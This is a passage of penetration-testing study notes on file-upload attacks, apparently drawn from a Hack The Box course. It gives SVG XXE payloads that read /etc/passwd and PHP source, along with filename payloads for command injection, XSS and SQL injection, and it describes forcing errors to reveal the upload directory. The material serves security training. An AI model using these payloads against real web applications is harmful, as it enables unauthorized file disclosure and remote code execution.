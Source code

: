 ```shell
exiftool HTB.jpg
```
## XXE
SVG image that leaks the content of (`/etc/passwd`):
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```js
$(document).ready(function () {
  $("#submit").click(function (event) {
    event.preventDefault();
    var fd = new FormData();
    var files = $('#uploadFile')[0].files[0];
    fd.append('uploadFile', files);

    $.ajax({
      url: 'upload.php',
      type: 'post',
      data: fd,
      contentType: false,
      processData: false,
      success: function () {
        window.location.reload();
      },
    });
  });
});
```
# Other Upload Attacks
## Injections in File Name
### Command Injection
If we name a file `file$(whoami).jpg` or ``file`whoami`.jpg`` or `file.jpg||whoami`, and then the web application attempts to move the uploaded file with an OS command (e.g. `mv file /tmp`), then our file name would inject the `whoami` command, which would get executed, leading to remote code execution.
### XSS
We may use an XSS payload in the file name (e.g. `<script>alert(window.origin);</script>`), which would get executed on the target's machine if the file name is displayed to them.
### SQLi
We may also inject an SQL query in the file name (e.g. `file';select+sleep(5);--.jpg`), which may lead to an SQL injection if the file name is insecurely used in an SQL query.
## Upload Directory Disclosure
- The method we can use to disclose the uploads directory is through forcing **error messages**, as they often reveal helpful information for further exploitation. 
- One attack we can use to cause such errors is **uploading a file with a name that already exists or sending two identical requests simultaneously.** This may lead the web server to show an error that it could not write the file, which may disclose the uploads directory. 